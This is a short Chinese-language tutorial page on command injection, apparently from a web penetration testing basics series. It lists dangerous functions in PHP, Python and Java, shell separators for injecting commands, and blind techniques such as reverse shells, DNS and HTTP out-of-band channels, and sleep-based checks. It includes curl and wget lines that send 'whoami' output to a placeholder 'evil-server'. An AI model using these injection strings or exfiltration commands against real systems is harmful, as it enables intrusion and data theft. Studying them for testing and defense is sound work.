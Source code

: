 # WEB安全渗透测试基础知识（八）

**3.5. 命令注入**

3.5.1. 简介
命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞
该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。
------------

3.5.2. 常见危险函数

3.5.2.1. PHP
- system
- exec
- passthru
- shell_exec
- popen
- proc_open

3.5.2.2. Python

- system
- popen
- subprocess.call
- spawn

3.5.2.3. Java
- java.lang.Runtime.getRuntime().exec(command)



---
3.5.3. 常见注入方式
- 分号分割
- || && & 分割
- | 管道符
- \r\n %d0%a0 换行
- 反引号解析
- $() 替换
- 

---
3.5.4. 无回显技巧


- bash反弹shell
- DNS带外数据
- http带外

curl http://evil-server/$(whoami)

wget http://evil-server/$(whoami)
- 无带外时利用 sleep 或其他逻辑构造布尔条件
- 

---